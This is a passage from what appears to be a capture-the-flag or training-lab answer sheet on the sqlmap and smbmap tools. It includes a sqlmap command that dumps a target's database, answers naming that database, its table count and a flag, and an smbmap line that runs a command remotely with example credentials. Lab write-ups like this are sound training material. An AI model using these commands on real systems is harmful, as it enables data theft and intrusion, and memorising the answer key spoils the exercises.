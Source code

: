 - Set the url to the machine ip, and run the command

- How many types of sqli is the site vulnerable too?

	- `3`

- Dump the database.

	- `sqlmap -u http://<TARGET_IP> --forms --dump`

- What is the name od the database?

	- `tests`

- How many tables are in the database?

	- `2`

- What is the value of the flag?

	- `found_me`

### [Section 6 - Samba]: Intro

	// no answer needed

### [Section 6 - Samba]: smbmap

- How do you set the username to authenticate with?

	- `-u`

- What about the password?  

	- `-p`

- How do you set the host?

	- `-h`

- What flag runs a command on the server(assuming you have permissions that is)?

	- `-x`

- How do you specify the share to enumerate?

	- `-s`

- How do you set which domain to enumerate?

	- `-d`

- What flag downloads a file?

	- `-download`

- What about uploading one?

	- `-upload`

- Given the username “admin”, the password “password”, and the ip “10.10.10.10”, how would you run ipconfig on that machine?

	- `smbmap -u "admin" -p "password" -H 10.10.10.10 -x "ipconfig"`
